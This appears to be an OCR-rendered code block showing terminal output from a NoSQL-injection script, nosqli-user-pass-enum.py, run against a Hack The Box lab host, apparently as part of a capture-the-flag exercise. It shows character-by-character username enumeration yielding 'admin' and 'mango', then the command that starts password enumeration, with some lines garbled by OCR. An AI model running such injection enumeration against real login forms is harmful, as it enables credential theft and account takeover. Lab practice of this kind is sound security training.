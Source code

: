 ```bash
No pattern starts with 'O'
No pattern starts with 'P'
No pattern starts with 'Q'
No pattern starts with 'R'
No pattern starts with 'S'
No pattern starts with 'T'
No pattern starts with 'U'
No pattern starts with 'V'
No pattern starts with 'W'
No pattern starts with 'X'
No pattern starts with 'Y'
No pattern starts with 'Z'
No pattern starts with '!'
No pattern starts with '"'
No pattern starts with '#'
No pattern starts with '%'
No pattern starts with '''
No pattern starts with '('
No pattern starts with ')'
No pattern starts with ','
No pattern starts with '-'
No pattern starts with '/'
No pattern starts with ':'
No pattern starts with ';'
No pattern starts with '<'
No pattern starts with '='
No pattern starts with '>'
No pattern starts with '@'
No pattern starts with '['
No pattern starts with ']'
No pattern starts with '_'
No pattern starts with '`'
No pattern starts with '{'
No pattern starts with '}'
No pattern starts with '~'
No pattern starts with ' '
No pattern starts with '        '
No pattern starts with '
'
'o pattern starts with '
No pattern starts with '
                        '
No pattern starts with '
                        '

2 username(s) found:
admin
mango

$ python nosqli-user-pass-enum.py -u http://staging-order.mango.htb -up username -pp password -ep password -m POST
No pattern starts with '0'
No pattern starts with '1'
No pattern starts with '2'
No pattern starts with '3'
No pattern starts with '4'
No pattern starts with '5'
No pattern starts with '6'
No pattern starts with '7'
No pattern starts with '8'
No pattern starts with '9'
No pattern starts with 'a'
No pattern starts with 'b'
```